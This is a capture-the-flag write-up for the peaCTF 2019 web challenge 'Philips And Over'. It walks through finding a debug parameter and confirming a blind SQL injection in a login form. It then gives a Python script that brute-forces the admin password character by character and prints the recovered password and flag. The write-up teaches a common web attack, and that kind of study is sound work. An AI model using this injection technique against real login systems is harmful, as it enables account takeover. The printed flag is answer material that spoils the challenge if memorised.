









# Philips And Over
```
There is a website running at http://shell1.2019.peactf.com:10078. Try to log in the "admin" account.
```
The Website:


Tried to login with admin:


Notice got a `Forget Password`, tried to pretend as admin:


But it failed =(


Checkinng the POST request, notice got a `debug` param:


Tried to Edit and Resend, change from 0 to 1:


And we saw something, is a SQL query!


Then we tried to SQL inject, and it is vulnerable!


Also notice if we enter random username, it will say `User does not exist`:


We confirm that this is a **Blind SQL injection**!

The statement is `SELECT password, answer FROM users WHERE username='admin'`

Our plan is to add `AND password LIKE '...%'` slowly brute force the password

Whole injection is like this:
```sql
SELECT password, answer FROM users WHERE username='admin' AND password LIKE '...%'
```
We're using python to brute force the password:
```python
import requests
import string
password = ""
while(1):
	for s in string.printable:
		data = {
			"username": "admin' AND password LIKE '%s%%" % (password+s),
			"answer": " ",
			"debug": 1
		}
		r = requests.post("http://shell1.2019.peactf.com:10078/result.php",data=data)
		if r.text.find("User does not exist") == -1:
			password += s
			print password
			break
```
Result:
```
4
45
458
4587
45873
458732
4587329
45873291
45873291%
...
```
Looks like the password is `45873291`!

Use the password and login, we get the flag!


## Flag
> flag{peactf_E_>_A_4d7424757a1b776fe6c456bef727aad3}